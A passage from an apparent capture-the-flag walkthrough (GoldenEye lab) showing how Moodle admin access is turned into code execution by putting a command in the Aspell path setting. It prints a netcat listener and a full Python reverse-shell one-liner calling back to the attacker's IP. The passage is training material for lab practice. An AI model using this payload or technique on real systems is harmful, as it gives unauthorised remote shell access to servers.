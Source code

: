 ### 3.12 - As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.

#### Take a look into Aspell, the spell checker plugin.


Hint: Settings->Aspell->Path to aspell field, add your code to be executed. Then create a new page and "spell check it".

Search for **"spell"** and you'll see this:

<p align="center"><img src="./files/spell.png"></p>

Now we can execute codes. Let's start a listener first:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Now replace the `Path to aspell` with the following code which is a python reverse shell and chenge the `Spell engine` to `PSpellShell` (Remember to add your IP):

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~
